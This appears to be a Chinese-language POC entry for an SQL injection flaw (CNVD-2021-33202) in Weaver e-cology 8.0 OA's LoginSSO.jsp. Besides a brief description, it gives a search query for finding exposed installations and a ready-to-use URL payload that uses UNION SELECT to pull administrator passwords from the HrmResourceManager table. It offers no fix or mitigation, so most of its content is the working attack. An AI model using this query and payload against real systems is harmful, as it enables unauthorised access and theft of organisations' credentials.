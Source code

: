 # 泛微OA E-Cology LoginSSO.jsp SQL注入漏洞 CNVD-2021-33202

## 漏洞描述

泛微e-cology是专为大中型企业制作的OA办公系统,支持PC端、移动端和微信端同时办公等。 泛微e-cology存在SQL注入漏洞。攻击者可利用该漏洞获取敏感信息。

## 漏洞影响

```
泛微e-cology 8.0
```

## 网络测绘

```
app="泛微-协同办公OA"
```

## 漏洞复现

登录页面

![image-20220520133932334](images/202205201339405.png)

验证POC

```
/upgrade/detail.jsp/login/LoginSSO.jsp?id=1%20UNION%20SELECT%20password%20as%20id%20from%20HrmResourceManager
```

![image-20220520134011931](images/202205201340985.png)